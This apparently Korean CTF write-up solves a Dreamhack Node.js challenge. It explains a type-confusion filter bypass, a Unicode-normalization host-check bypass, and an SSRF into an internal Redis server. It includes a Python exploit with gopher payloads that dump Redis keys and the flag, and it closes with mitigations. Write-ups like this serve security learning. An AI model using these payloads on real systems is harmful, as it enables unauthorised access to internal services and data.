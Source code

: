 ```yaml
---
title: ["Redis SSRF & NodeJS Unicode Normalization"]
date: 2025-02-17 09:00:00 +0900
categories: [techniques, NodeJS]
tags: [web, ssrf, redis, nodejs, unicode normalization, bypassing filters]
---
```

Dreamhack 문제를 풀고 관련된 개념을 정리하려고 한다.  

# Dreamhack CTF Writeup
## 문제 분석

이 문제는 Node.js 기반 웹 애플리케이션의 여러 취약점을 조합하여 플래그를 획득하는 문제입니다:
1. Type Confusion을 이용한 필터 우회
2. Unicode Normalization을 이용한 URL 파싱 우회
3. SSRF를 통한 내부 Redis 서버 접근

## 취약점 상세 분석

### 1. 로직 분석

주요 엔드포인트와 기능:
- `/add`: sess.user 객체의 프로퍼티를 수정할 수 있음
- `/view/:pid`: Redis에서 특정 키의 값을 조회 (localhost만 허용)
- `/`: 로그인한 사용자의 profile.url을 방문하여 결과를 표시

플래그는 Redis에 랜덤한 키로 저장되어 있다:
```javascript
client.set(crypto.createHash('sha512').update(crypto.randomBytes(64)).digest('hex'), FLAG);
```

### 2. 취약점 체인

#### 2.1 Type Confusion
`/add` 엔드포인트의 필터를 우회하기 위해 Type Confusion을 이용할 수 있다:
```javascript
if(value.length >= 25) {
    return res.json({
        c: -1,
        e: "Too long"
    });
}
```
위 코드는 value가 문자열일 경우에만 길이를 체크한다. value를 객체로 전달하면 이 체크를 우회할 수 있다.

#### 2.2 Unicode Normalization
Node.js v14에서 URL 파싱 시 Unicode 문자를 정규화하는 과정을 이용해 URL 검증을 우회할 수 있다:
```javascript
if(!profile_URL.host.endsWith(config.HOST))
```

특수 문자들을 유니코드로 변경: [Unicode normalization](https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html)
- `:` → `︓` (Full width colon)
- `/` → `／` (Full width slash)
- `%` → `％` (Full width percent)
- `*` → `﹡` (Full width asterisk)

### 3. 공격 시나리오

1. 로그인하여 세션 획득
2. Type Confusion을 이용해 profile 객체 조작
3. Unicode Normalization을 이용해 gopher URL 주입
4. SSRF를 통해 Redis 서버에 접근하여 키 목록 획득
5. 획득한 키를 이용해 플래그 값 조회

## 익스플로잇 코드

```python
import requests

url = "http://host1.dreamhack.games:xxxxx"
s = requests.Session()

# 1. 로그인
s.post(url + "/login", json={"username": "test", "password": "test", "email": "test"})

# 2. profile.isRender를 true로 설정하고 gopher URL 주입
payload = {
    "key": ["profile"],
    "value": {
        "url": "gopher://redis︓6379／_keys％20﹡％0d％0aquit％0d％0a127.0.0.1:8000",
        "isRender": "true"
    }
}
s.post(url + "/add", json=payload)

# 3. Redis 키 목록 획득
keys = s.get(url + "/").text
print("Found keys:", keys)

# 4. 플래그 키를 이용해 값 조회
for key in keys.split("\r\n"):
    if len(key) == 128:  # SHA-512 length
        payload = {
            "key": ["profile"],
            "value": {
                "url": f"gopher://redis︓6379／_get％20{key}％0d％0aquit％0d％0a127.0.0.1:8000",
                "isRender": "true"
            }
        }
        s.post(url + "/add", json=payload)
        print("Flag:", s.get(url + "/").text)
```

## 학습 포인트

1. JavaScript에서 Type Confusion이 발생할 수 있는 상황
2. Node.js의 URL 파싱과 Unicode Normalization의 특성
3. SSRF를 이용한 내부 서비스 접근 기법
4. Redis 프로토콜과 gopher URL을 이용한 공격

## 대응 방안

1. 타입 검사 강화
   - `typeof` 또는 스키마 검증 라이브러리 사용
   
2. URL 검증 강화
   - 허용된 프로토콜만 사용하도록 제한
   - URL 파싱 전 문자열 정규화
   
3. 내부 서비스 보안
   - Redis 바인딩 주소 제한
   - 적절한 인증 설정
   - 네트워크 분리

## Reference
[Node.js url.parse() 취약점 컨트리뷰션](https://toss.tech/article/nodejs-security-contribution)
[nodejs unicode](https://lactea.kr/entry/nodejs-unicode)
[JavaScript type confusion: Bypassed input validation](https://snyk.io/blog/remediate-javascript-type-confusion-bypassed-input-validation/)
[Hostname spoofing](https://hackerone.com/reports/678487)
[Unicode Normalization](https://book.hacktricks.wiki/en/pentesting-web/unicode-injection/index.html)
[Alternative Unicode Character](https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html)
[SSRF Gopher](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html#gopher)
